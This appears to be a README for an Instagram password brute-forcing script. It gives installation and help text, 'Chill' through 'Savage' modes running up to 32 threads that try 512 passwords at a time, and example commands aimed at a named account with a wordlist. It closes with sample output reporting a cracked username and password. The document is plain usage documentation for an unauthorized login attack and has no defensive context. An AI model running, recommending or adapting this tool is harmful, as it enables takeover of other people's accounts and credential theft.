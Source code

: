Install Dependencies
pip3 install -r requirements.txt
Help
python3 instagram.py -h
usage: instagram.py [-h] [-m MODE] username wordlist

positional arguments:
  username              email or username
  wordlist              password list

optional arguments:
  -h, --help            show this help message and exit
  -m MODE, --mode MODE  modes: 0 => 32 bots; 1 => 16 bots; 2 => 8 bots; 3 => 4 bots
Usage
python3 instagram.py <username> <wordlist> -m <mode>
Bots(Threads)
4 bots: 64 passwords at a time
8 bots: 128 passwords at a time
16 bots: 256 passwords at a time
32 bots: 512 passwords at a time
Modes
0: 32 bots
1: 16 bots
2: 8 bots
3: 4 bots
Chill mode
This mode uses only 4 bots, or 64 passwords at a time.

python3 instagram.py lachin_a pass.lst -m 3
Moderate mode 1
This mode uses 8 bots, or 128 passwords at a time.

python3 instagram.py lachin_a pass.lst -m 2
Moderate mode 2
This mode uses 16 bots, or 256 passwords at a time.

python3 instagram.py lachin_a pass.lst -m 1
Savage mode
This mode uses 32 bots, or 512 passwords at a time.

python3 instagram.py lachin_a pass.lst -m 0
If you don't specify a mode, then mode is set to 2
Run
[-] Wordlist: pass.lst
[-] Username: lachin_a
[-] Password: lachin222
[-] Complete: 45.51%
[-] Attempts: 123
[-] Browsers: 68
[-] Exists: True
Stop
[-] Wordlist: pass.lst
[-] Username: lachin_a
[-] Password: lachin1234
[-] Complete: 62.67%
[-] Attempts: 30
[-] Browsers: 35
[-] Exists: True

[!] Password Found
[+] Username: lachin_a  
[+] Password: lachin123456
